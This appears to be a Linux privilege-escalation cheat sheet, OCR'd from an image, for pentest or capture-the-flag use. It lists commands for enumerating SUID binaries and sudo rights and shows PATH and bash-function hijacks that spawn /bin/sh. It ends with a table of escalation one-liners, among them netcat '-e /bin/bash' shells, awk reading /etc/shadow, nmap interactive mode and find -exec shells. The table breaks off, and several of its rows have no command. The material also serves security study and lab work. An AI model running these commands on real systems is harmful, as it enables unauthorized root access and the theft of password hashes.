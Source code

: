 Check the services that are listening:

ss -lnpt
What can we EXECUTE?
Who can execute code as root (probably will get a permission denied)?
cat /etc/sudoers

Can I execute code as root (you will need the user's password)?
sudo -l

What executables have SUID bit that can be executed as another user?
find / -type f -user root -perm /u+s -ls 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;

Do any of the SUID binaries run commands that are vulnerable to file path manipulation?
strings /usr/local/bin/binaryelf
mail
echo "/bin/sh" > /tmp/mail cd /tmp
export PATH=.
/usr/local/bin/binaryelf

Do any of the SUID binaries run commands that are vulnerable to Bash Function Manipulation? strings /usr/bin/binaryelf
mail function /usr/bin/mail() { /bin/sh; }
export -f /usr/bin/mail
/usr/bin/binaryelf

Can I write files into a folder containing a SUID bit file?
Might be possible to take advantage of a '.' in the PATH or an The IFS (or Internal Field Separator) Exploit.

If any of the following commands appear on the list of SUID or SUDO commands, they can be used for privledge escalation:

SUID / SUDO Executables	Priv Esc Command (will need to prefix with sudo if you are using sudo for priv esc.
(ALL : ALL ) ALL	You can run any command as root.
sudo su -
sudo /bin/bash
nmap
(older versions 2.02 to 5.21)	nmap --interactive
!sh
netcat
nc
nc.traditional	nc -nlvp 4444 &
nc -e /bin/bash 127.0.0.1 4444
ncat	
awk
gawk	awk '{ print }' /etc/shadow
awk 'BEGIN {system("id")}'
python	python -c 'import pty;pty.spawn("/bin/bash")'
php	
find	find /home -exec nc -lvp 4444 -e /bin/bash \;
find /home -exec /bin/bash \;
xxd	
vi	
more	
less	
nano	
cp	
cat	
bash	
ash	
sh	
csh	